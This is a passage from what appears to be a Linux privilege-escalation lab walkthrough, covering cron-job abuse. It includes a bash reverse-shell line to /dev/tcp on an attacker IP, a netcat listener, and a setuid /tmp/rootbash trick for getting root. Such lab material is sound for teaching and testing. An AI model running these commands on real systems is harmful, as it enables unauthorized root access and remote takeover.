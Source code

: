 Locate the full path of the overwrite.sh file:

```bash
locate overwrite.sh
```

Note that the file is world-writable:

```bash
ls -l /usr/local/bin/overwrite.sh
```

Replace the contents of the overwrite.sh file with the following after changing the IP address to that of your Kali box.

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener. If it doesn't recheck the permissions of the file, is anything missing?

```bash
nc -nvlp 4444
```

Remember to exit out of the root shell and remove the reverse shell code before continuing!

## 9. Cron Jobs - PATH Environment Variable

View the contents of the system-wide crontab:

```bash
cat /etc/crontab
```

Note that the PATH variable starts with /home/user which is our user's home directory.

Create a file called overwrite.sh in your home directory with the following contents:

```bash
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

Make sure that the file is executable:

```bash
chmod +x /home/user/overwrite.sh
```

Wait for the cron job to run (should not take longer than a minute). Run the /tmp/rootbash command with -p to gain a shell running with root privileges:

```bash
/tmp/rootbash -p
```
